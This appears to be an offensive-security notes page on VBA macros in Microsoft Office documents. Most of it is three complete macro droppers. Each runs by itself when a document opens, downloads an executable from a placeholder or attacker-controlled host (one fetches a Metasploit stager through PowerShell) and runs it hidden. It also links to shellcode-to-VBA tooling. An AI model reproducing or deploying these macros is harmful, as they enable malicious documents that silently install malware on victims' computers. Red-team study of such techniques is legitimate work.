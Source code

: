 # ⭕ VBA

{% embed url="https://github.com/S3cur3Th1sSh1t/OffensiveVBA" %}

visual basic for applications is a VB scripting language embedded in applications like MS Office (a macro) and other applications like autoCAD.

with MS Office the VBA code is embedded in a document like a word processor file or spreadsheet.

{% hint style="info" %}
VBA is more powerful than VBS because it can interface directly with the windows API. VBA programs are not restricted in their access to the operating system.
{% endhint %}

## <mark style="color:red;">VBA Download & Execute</mark>

```
Sub AutoOpen()

Const ADTYPEBINARY = 1
Const ADSAVECREATEOVERWRITE = 2

Dim xHttp
Dim bStrm
Dim filename

Set xHttp = CreateObject("Microsoft.XMLHTTP")
xHttp.Open "GET", "https://<DOMAIN>/<FILE>", False
xHttp.Send

Set gobjBinaryOutputStream = CreateObject("Adodb.Stream")

filename = "C:\Temp\" & DateDiff("s", #1/1/1970#, Now())

gobjBinaryOutputStream.Type = ADTYPEBINARY
gobjBinaryOutputStream.Open
gobjBinaryOutputStream.write CreateObject("System.Text.ASCIIEncoding").GetBytes_4("M")
gobjBinaryOutputStream.write CreateObject("System.Text.ASCIIEncoding").GetBytes_4("Z")
gobjBinaryOutputStream.write xHttp.responseBody
gobjBinaryOutputStream.savetofile filename, ADSAVECREATEOVERWRITE

SetAttr filename, vbReadOnly + vbHidden + vbSystem
Shell (filename)

End Sub
```

or

```
Sub AutoOpen()
    Auto_Open
End Sub

Sub Auto_Open()
    payloadURL = "<Download URL>"
    Dim req: Set req = CreateObject("Microsoft.XMLHTTP")
    Dim payloadStream: Set payloadStream = CreateObject("Adodb.Stream")
    req.Open "GET", payloadURL, False
    req.Send

    tmpDir = Environ("TEMP")
    exePath = tmpDir + "\trhen.exe"
    With payloadStream
        .Type = 1
        .Open
        .write req.ResponseBody
        .savetofile exePath, 2
    End With
    
    Set WshShell = CreateObject("WScript.Shell")
    cmds = WshShell.Run(exePath, 0, True)
    Set WshShell = Nothing
End Sub
```

#### <mark style="color:green;">Download and execute with powershell</mark>

```
Sub Document_Open()
    MyMacro
End Sub
Sub AutoOpen()
    MyMacro
End Sub
Sub MyMacro()
    Dim str As String
    str = "powershell (New-Object
    System.Net.WebClient).DownloadFile('http://192.168.119.120/msfstaged.exe','msfstaged.exe')"
    Shell str, vbHide
    Dim exePath As String
    exePath = ActiveDocument.Path + "\msfstaged.exe"
    Wait (2)
    Shell exePath, vbHide
End Sub
Sub Wait(n As Long)
    Dim t As Date
    t = Now
    Do
    DoEvents
    Loop Until Now >= DateAdd("s", n, t)
End Sub
```

## <mark style="color:red;">Shellcode VBA</mark>

{% embed url="https://github.com/iilegacyyii/UsefulScripts/blob/master/ShellcodeToVBA.py" %}

{% embed url="https://github.com/ScriptIdiot/vba_bin_runner" %}

{% embed url="https://github.com/karttoon/trigen" %}

